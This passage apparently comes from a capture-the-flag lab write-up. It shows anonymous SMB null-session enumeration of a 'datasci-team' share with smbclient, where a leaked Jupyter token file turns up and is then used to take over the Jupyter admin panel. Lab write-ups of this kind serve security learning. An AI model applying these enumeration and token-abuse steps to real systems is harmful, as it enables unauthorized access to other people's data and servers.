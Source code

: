 We repeat null session with share *datasci-team*, we can see a lot relevant files:
```
> smbclient -N //10.10.81.101/datasci-team
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Aug 25 17:27:02 2022
  ..                                  D        0  Thu Aug 25 17:27:02 2022
  .ipynb_checkpoints                 DA        0  Thu Aug 25 17:26:47 2022
  Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Thu Aug 25 17:26:46 2022
  misc                               DA        0  Thu Aug 25 17:26:47 2022
  MPE63-3_745-757.pdf                 A   414804  Thu Aug 25 17:26:46 2022
  papers                             DA        0  Thu Aug 25 17:26:47 2022
  pics                               DA        0  Thu Aug 25 17:26:47 2022
  requirements.txt                    A       12  Thu Aug 25 17:26:46 2022
  weasel.ipynb                        A     4308  Thu Aug 25 17:26:46 2022
  weasel.txt                          A       51  Thu Aug 25 17:26:46 2022

                15587583 blocks of size 4096. 8941726 blocks available
smb: \> 
```

We see a file called *jupyter-token.txt*, this file containt the jupyter-token session for access to administration panel:

```
smb: \> cd misc
smb: \misc\> dir
  .                                  DA        0  Thu Aug 25 17:26:47 2022
  ..                                 DA        0  Thu Aug 25 17:26:47 2022
  jupyter-token.txt                   A       52  Thu Aug 25 17:26:47 2022

                15587583 blocks of size 4096. 8941613 blocks available
```

#### Evidence Jupyter token
```
> cat jupyter-token.txt
06********************************
```

## Exploitation
We change the password on *Jupyter* administration panel with the jupyter token previous.
